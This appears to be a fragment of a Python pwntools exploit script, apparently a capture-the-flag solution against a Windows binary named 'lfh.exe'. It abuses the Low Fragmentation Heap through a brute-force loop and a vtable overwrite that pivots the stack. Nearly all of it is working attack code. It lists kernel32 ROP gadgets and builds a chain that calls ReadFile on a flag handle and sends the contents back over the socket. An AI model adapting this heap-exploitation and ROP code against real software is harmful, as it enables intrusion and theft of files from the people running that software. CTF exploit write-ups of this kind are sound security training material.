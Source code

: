 ```py

# first alloc 0x20 => first LFH 0x20, UserBlocks cnt 0x18

#binary.base = leak_binary_base()
log.success('lfh.exe: {:08x}'.format(binary.base))
#k32.base = leak_k32_base()
log.success('kernel32.dll: {:08x}'.format(k32.base))

for i in range(10000):
    try:
        log.info('Attempt {}'.format(i))

        run()
        try:
            sel2()
        except KeyboardInterrupt:
            break
        except:
            log.warning("Response too slow...")
            break

        sel1('a\n')

        """
        base: k32
        0x1090e : mov esp, ebp ; pop ebp ; ret
        0x10911 : ret
        0x6d23b : push esp ; pop esi ; ret
        0x1e7b2 : pop eax ; ret
        0x49b82 : add eax, esi ; pop esi ; ret
        0x47718 : mov eax, dword ptr [eax] ; ret
        0x223a7 : pop ecx ; ret
        0x1fb4b : mov ecx, eax ; mov eax, ecx ; pop ebp ; ret
        0x5dfa3 : mov dword ptr [eax], ecx ; xor eax, eax ; pop ebp ; ret 0x18
        """
        flag_buf = binary.base + 0x1f840
        overlapped = binary.base + 0x1f940
        send18b = binary.base + 0x12CF
        sockfd_ptr = binary.base + 0x1E9A0
        rop  = ''
        rop += p32(0)
        rop += p32(k32.base + 0x1e7b2) + p32(binary.base + 0x1E9A8)  # eax = &hFlag
        rop += p32(k32.base + 0x47718)  # eax = *eax
        rop += p32(k32.base + 0x1fb4b) + p32(0)  # ecx = eax (= hFlag)
        rop += p32(k32.base + 0x1e7b2) + p32(0x30)  # eax = 0x30  (offset @ stack 0x1337)
        rop += p32(k32.base + 0x6d23b)  # esi = esp
        rop += p32(k32.base + 0x49b82) + p32(0)  # eax = eax + esi
        rop += p32(k32.base + 0x5dfa3) + p32(0)  # [eax] = ecx  (*(arg loc) = hFlag)
        rop += p32(k32.base + k32.symbols['ReadFile']) + 'A'*0x18 + p32(k32.base + 0x223a7) + p32(0x1337) + p32(flag_buf) + p32(0x100) + p32(0) + p32(overlapped)
        rop += p32(sockfd_ptr)  # already return to pop ecx
        for i in range(3):
            rop += p32(send18b) + p32(k32.base + 0x223a7) + p32(flag_buf + 18 * i) + p32(sockfd_ptr)
        rop += '\n'

        vtable_payload = p32(0) + p32(k32.base + 0x1090e) + '\n'  # vtable 2nd function as stack pivoter

        assert '\n' not in (rop[:-1] + vtable_payload[:-1])

        # very roughly approx. 1 / 0x18 chance of overwrite
        indices = [0, -5 & 0xffffffff]
```